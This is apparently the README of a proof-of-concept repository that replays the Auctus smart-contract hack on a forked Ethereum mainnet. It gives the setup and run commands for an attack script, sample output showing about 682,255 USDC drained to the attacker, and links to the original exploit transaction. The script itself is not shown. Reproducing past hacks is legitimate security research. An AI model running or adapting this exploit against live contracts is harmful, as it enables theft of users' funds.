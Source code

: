 # Auctus re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
USDC balance of attacker: 0.0
Exploiting...
Exploit complete.
USDC balance of attacker: 682255.200072

```
This means the attack is complete
> The block height of the fork is 14460635


## Link

* https://twitter.com/AuctusOptions/status/1508647849663291398?cxt=HHwWjICzpbzO5e8pAAAA
* https://etherscan.io/tx/0x2e7d7e7a6eb157b98974c8687fbd848d0158d37edc1302ea08ee5ddb376befea

